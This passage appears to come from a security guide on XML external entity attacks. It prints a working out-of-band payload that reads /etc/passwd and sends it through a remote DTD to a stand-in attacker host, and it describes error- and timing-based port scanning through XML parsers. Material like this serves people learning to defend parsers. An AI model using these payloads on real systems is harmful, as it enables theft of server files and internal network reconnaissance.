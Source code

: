##### File Retrieval with Parameter Entities

Parameter entities allows for the retrieval of content using URL references. Consider the following malicious XML document:

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
 <!ENTITY % file SYSTEM "file:///etc/passwd">
 <!ENTITY % dtd SYSTEM "http://attacker/evil.dtd">
 %dtd;
]>
<root>&send;</root>
```

Here the [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp) defines two external parameter entities: `file` loads a local file, and `dtd` which loads a remote [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp). The remote [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp) should contain something like this:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % all "<!ENTITY send SYSTEM 'http://example.com/?%file;'>">
%all;
```

The second [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp) causes the system to send the contents of the `file` back to the attacker's server as a parameter of the URL.

##### Port Scanning

The amount and type of information will depend on the type of implementation. Responses can be classified as follows, ranking from easy to complex:

**1) Complete Disclosure**: The simplest and most unusual scenario, with complete disclosure you can clearly see what's going on by receiving the complete responses from the server being queried. You have an exact representation of what happened when connecting to the remote host.

**2) Error-based**: If you are unable to see the response from the remote server, you may be able to use the error response. Consider a web service leaking details on what went wrong in the SOAP Fault element when trying to establish a connection:

```text
java.io.IOException: Server returned HTTP response code: 401 for URL: http://192.168.1.1:80
 at sun.net.www.protocol.http.HttpURLConnection.getInputStream(HttpURLConnection.java:1459)
 at com.sun.org.apache.xerces.internal.impl.XMLEntityManager.setupCurrentEntity(XMLEntityManager.java:674)
```

**3) Timeout-based**: Timeouts could occur when connecting to open or closed ports depending on the schema and the underlying implementation. If the timeouts occur while you are trying to connect to a closed port (which may take one minute), the time of response when connected to a valid port will be very quick (one second, for example). The differences between open and closed ports becomes quite clear.

**4) Time-based**: Sometimes differences between closed and open ports are very subtle. The only way to know the status of a port with certainty would be to take multiple measurements of the time required to reach each host; then analyze the average time for each port to determinate the status of each port. This type of attack will be difficult to accomplish when performed in higher latency networks.
